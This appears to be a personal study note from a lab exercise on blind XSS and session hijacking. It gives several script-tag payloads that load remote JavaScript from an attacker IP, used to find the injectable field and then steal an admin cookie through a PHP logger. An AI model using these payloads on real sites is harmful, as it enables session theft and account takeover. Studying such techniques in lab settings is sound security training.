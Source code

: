 ```yaml
---
title: Session Hijacking
updated: 2023-08-21T10:34:36.0000000+01:00
created: 2023-08-20T17:46:34.0000000+01:00
date modified: Monday, May 13th 2024, 10:57:24 pm
---
```


Introduction:

Modern web applications use **cookies** to manage a user's session throughout different browsing sessions - this is what enables users to log in once and maintain the log-in session even if they close the tab.

However, malicious actors can obtain cookie data from the victim's browser and they can gain access to the user's active session and potentially take over the account by using JavaScript - this is **a Session Hijacking/Cookie stealing** attack.

Blind XSS Detection:

We usually start engagements by trying to discover the existence of XSS vulnerabilities. In this case we have a **Blind XSS vulnerability**. Meaning that the XSS is triggered on a page we cannot access or see - hence the name. Blind XSS usually occurs on forms such as:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent Headers

We can take for example a user registration portal:
![image1](../../../../_resources/image1-196.png)

After we register we can see:
![image2](../../../../_resources/image2-162.png)

This indicates that we won't be able to see how our input will be handled or how it will appear in the browser. In regular XSS attacks we can use the alert box payload to check for XSS - but since we can't see the admin panel, **How do we detect if the application is vulnerable to XSS?**

To do this, we need to use a JavaScript payload which will send a HTTP request back to us - if it succeeds, then we have a **Blind XSS** vulnerability, if it fails we do not.

There are two main issues with this approach though:

1.  **How can we know which specific field is vulnerable?**
    1.  Since any fields can execute code how do we know which one does execute code?
2.  **How can we know what XSS payload to use?**
    1.  The page is vulnerable, but certain payloads might not work.

Using a Targets Cookie:

Once we get the cookie from a target, we can log in using the login page, we do this by using **browser dev tools** and adding a cookie to storage that corresponds to our user:
![image3](../../../../_resources/image3-127.png)

And once we refresh the page we will be logged in as the user:
![image4](../../../../_resources/image4-102.png)

Activity:
![image5](../../../../_resources/image5-78.png)

1.  Find working XSS payload
    1.  Use netcat or php listener and look for responses.
    2.  Send XSS payloads to the web app.
2.  Inject our code to steal the victims cookie
    1.  Start our PHP script to get the targets cookie
3.  Use dev tools to edit our cookie to log in as them.

Starting our php listener:
![image6](../../../../_resources/image6-55.png)

When we submit a login form:
<http://10.129.35.174/hijacking/?fullname=a&username=s&password=s&email=a%40a.com&imgurl=a>

To test all the fields to determine if they are vulnerable:
(Note that we should test these variation since we don't know what the source code will accept)
\<script src=http://10.10.16.31:80\>\</script\>
'\>\<script src=http://10.10.16.31:80\>\</script\>

We send this via the form in the browser - omitting the email field.

**"\>\<script src=http://10.10.16.31:80\>\</script\> - Gives us a response, showing us that blind XSS is possible:**
![image7](../../../../_resources/image7-48.png)

Now we need to test each field to figure out where the XSS vulnerability is. e.g.

**"\>\<script src=http://10.10.16.31:80/fullname\>\</script\>**
**"\>\<script src=http://10.10.16.31:80/username\>\</script\>**
**"\>\<script src=http://10.10.16.31:80/password\>\</script\>**
**"\>\<script src=http://10.10.16.31:80/url\>\</script\>**

We then can look at our listener and see that it is the URL field:
![image8](../../../../_resources/image8-41.png)

*Note that we could also use BURP or a python script that uses curl to automate this if we wanted to.*

2.  Injecting our code

We have our JS payload from PayloadAllTheThings - we need to write this as **script.js** inside our listener directory:
![image9](../../../../_resources/image9-34.png)

We then can setup our PHP script to get cookies - we need to write this as **index.php** inside our listener directory:
![image10](../../../../_resources/image10-28.png)

Restart the PHP listener:
![image11](../../../../_resources/image11-22.png)

And send our payload:
**"\>\<script src=http://10.10.16.31:80/script.js\>\</script\>**

In our listener:
![image12](../../../../_resources/image12-17.png)
Loading a remote script:

In, HTML we are able to write our own JS code using script tags, we can also include a remote script for our IP like so:
![image13](../../../../_resources/image13-16.png)

**To check blind XSS,** we can change the name of the **script.js** to the field we want to test - if we get a response then the resource exists, testing **username** for example:
![image14](../../../../_resources/image14-13.png)

Then with this information, it is possible to send various XSS payloads that load a remote script and see what gives us a request back:
![image15](../../../../_resources/image15-10.png)

*Note that the reason why we have script tags that start with speech marks is to try test for various exploits that effect the backend.*

If we had access to the source code, we could write a payload that would be successfully injected without all of this formatting, this is why **DOM XSS** in which we can see the source code via the client side is more successful with **Blind XSS.**

Before we start to send payloads we need to start a listener on our VM, either using **netcat** or **PHP:**
![image16](../../../../_resources/image16-10.png)

Then we can start to test the payloads using our IP and looking for responses in our listener:
![image17](../../../../_resources/image17-8.png)

*Note that we usually shouldn't test passwords since they are hashed, in this case the email field is needs to be a valid email and is validated in the back-end - even if using the HTTP parameter method.*

Once we submit the form, we wait a few seconds and check our listeners in the terminal. When we see a response we should note down what payload we used.

Session Hijacking:

Once we have a working XSS payload we can then use it to exploit a target using a **Session Hijacking Attack**. To do this we use JavaScript to send us the data using a PHP script hosted on our server.

We can use payloads in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc), to do this:
![image18](../../../../_resources/image18-8.png)

The 2nd payload is the one we will use since it just adds an image to our page, which doesn't look malicious. **We will need to write this to a script.js file on our machine too.**

Finally, we can change the URL in the XSS payload to point to our IP:
![image19](../../../../_resources/image19-6.png)
(making sure we include these in our scripts too).

With our PHP script now running, we can use the code portion of our XSS attack and send it the vulnerable input field. However, we can get many cookies so it is important that we spilt them with a newline and write to file in the event we get lots of cookies.

PHP script **(index.php in our php listener folder**):
![image20](../../../../_resources/image20-5.png)

Once a victim visits our malicious page, we will get two requests in our listener:
![image21](../../../../_resources/image21-5.png)

We can then cat our cookie file:
![image22](../../../../_resources/image22-5.png)

Logging in as admin:

Finally after sending our payload we have gotten the admin cookie, we can log in as our admin using devtools.
![image23](../../../../_resources/image23-4.png)

We navigate to login.php and open up **Storage** so we can add a new cookie:
![image24](../../../../_resources/image24-4.png)

We then edit this value to include the admins **cookie name** and **cookie value:**
![image25](../../../../_resources/image25-4.png)

Then we have access to the admin panel:
![image26](../../../../_resources/image26-3.png)

